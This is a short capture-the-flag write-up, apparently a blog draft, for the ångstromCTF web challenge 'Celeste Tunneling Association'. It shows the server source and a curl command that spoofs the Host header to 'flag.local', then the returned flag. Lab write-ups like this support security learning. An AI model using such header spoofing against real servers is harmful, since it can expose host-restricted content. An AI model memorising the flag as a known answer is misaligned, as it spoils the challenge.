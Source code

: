 ```yaml
---
author: "Asad Ullah"
title: "Celeste Tunneling Association - ångstromCTF"
description: 
summary: Write-up on web challenge Celeste Tunneling Association.
date: 2023-04-27T00:04:24+05:00
Section: write-ups
categories:
- writeup
- ctftime.org
tags:
- angstormctf
- web
- header

draft: True

---
```


{{< 
ctftime 
name="Celeste Tunneling Association" 
difficulty="Easy"  
points="40"
category="Web"
>}}

&nbsp;

&nbsp;

## Description

[Welcome to the tunnels!!](https://pioneer.tailec718.ts.net/) Have fun!

[Here's the source](https://files.actf.co/5b5169bad21a7256564e8d49103f2b97bb2d2db7cdf3446fe6c9e11f9500922e/server.py)

## Approach

We are provided with a website along with its source code.

&nbsp;

**Here is the Source Code:**

```python
# run via `uvicorn app:app --port 6000`
import os

SECRET_SITE = b"flag.local"
FLAG = os.environ['FLAG']

async def app(scope, receive, send):
    assert scope['type'] == 'http'

    headers = scope['headers']

    await send({
        'type': 'http.response.start',
        'status': 200,
        'headers': [
            [b'content-type', b'text/plain'],
        ],
    })

    # IDK malformed requests or something
    num_hosts = 0
    for name, value in headers:
        if name == b"host":
            num_hosts += 1

    if num_hosts == 1:
        for name, value in headers:
            if name == b"host" and value == SECRET_SITE:
                await send({
                    'type': 'http.response.body',
                    'body': FLAG.encode(),
                })
                return

    await send({
        'type': 'http.response.body',
        'body': b'Welcome to the _tunnel_. Watch your step!!',
    })
```

&nbsp;

By examining the source code, we can observe that the flag is stored as an environment variable and can be accessed if the condition **`if name == b"host" and value == SECRET_SITE:`** is satisfied.

To trigger the server to reveal the flag, we need to provide a single header with the name **`host`** and the value **`flag.local`**. Once the server receives this header, it will return the flag in response.

&nbsp;

```bash
┌──(kali㉿iasad)-[~/CTFs/angstorm]
└─$ curl -H "Host: flag.local" https://pioneer.tailec718.ts.net/    
 
actf{reaching_the_core__chapter_8}
```

&nbsp;

---

**Flag: `actf{reaching_the_core__chapter_8}`**

---

&nbsp;

&nbsp;
